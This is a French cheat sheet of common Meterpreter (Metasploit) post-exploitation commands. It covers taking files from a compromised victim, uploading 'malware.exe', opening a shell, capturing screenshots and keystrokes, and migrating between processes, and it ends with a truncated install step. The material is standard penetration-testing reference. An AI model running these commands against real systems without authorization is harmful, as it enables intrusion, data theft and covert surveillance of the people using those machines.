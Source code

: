 # cheat sheet meterpreter

Une référence rapide pour les commandes courantes de **Meterpreter**, le payload interactif de Metasploit, avec fonctions, commandes et exemples. Suppose une session active.

---

## 1. Obtenir des informations système
**Fonction** : Afficher les détails du système cible.  
**Commande** : `sysinfo`  
**Exemple** : `sysinfo`  
- Affiche le nom de l’hôte, l’OS, l’architecture, etc. de la machine compromise.

---

## 2. Lister les processus
**Fonction** : Voir les processus en cours d’exécution.  
**Commande** : `ps`  
**Exemple** : `ps`  
- Liste les PID, noms et utilisateurs des processus sur la cible.

---

## 3. Télécharger un fichier
**Fonction** : Récupérer un fichier depuis la cible.  
**Commande** : `download <remote_path> <local_path>`  
**Exemple** : `download C:\Users\Victim\secret.txt /home/user/secret.txt`  
- Télécharge secret.txt de la cible vers l’attaquant.

---

## 4. Uploader un fichier
**Fonction** : Envoyer un fichier vers la cible.  
**Commande** : `upload <local_path> <remote_path>`  
**Exemple** : `upload /home/user/malware.exe C:\Temp\malware.exe`  
- Envoie malware.exe vers C:\Temp sur la cible.

---

## 5. Exécuter une commande shell
**Fonction** : Lancer une commande système sur la cible.  
**Commande** : `execute -f <command>`  
**Exemple** : `execute -f "dir"`  
- Exécute la commande "dir" sur une cible Windows.

---

## 6. Obtenir un shell interactif
**Fonction** : Accéder à un shell complet sur la cible.  
**Commande** : `shell`  
**Exemple** : `shell`  
- Ouvre un shell (cmd.exe sur Windows, /bin/sh sur Linux).

---

## 7. Prendre une capture d’écran
**Fonction** : Capturer l’écran de la cible.  
**Commande** : `screenshot`  
**Exemple** : `screenshot`  
- Sauvegarde une capture d’écran dans le répertoire de travail de Metasploit.

---

## 8. Enregistrer les frappes
**Fonction** : Capturer les saisies clavier de la cible.  
**Commande** : `keyscan_start`  
**Exemple** : `keyscan_start`  
- Démarre l’enregistrement des frappes (utiliser `keyscan_dump` pour voir les résultats).

---

## 9. Migrer vers un autre processus
**Fonction** : Transférer la session Meterpreter dans un autre processus.  
**Commande** : `migrate <PID>`  
**Exemple** : `migrate 1234`  
- Migre la session vers le processus avec le PID 1234.

---

## 10. Afficher les interfaces réseau
**Fonction** : Voir les configurations réseau de la cible.  
**Commande** : `ipconfig` (Windows) ou `ifconfig` (Linux)  
**Exemple** : `ipconfig`  
- Affiche les adresses IP et interfaces réseau de la cible.

---

## Notes importantes
- **Prérequis** : Une session Meterpreter active via Metasploit (ex. : après `exploit` et `sessions -i <id>`).
- **Installation** :  
  ```bash
  sudo apt update && sudo apt install -y metasploit-framework
  msfconsole
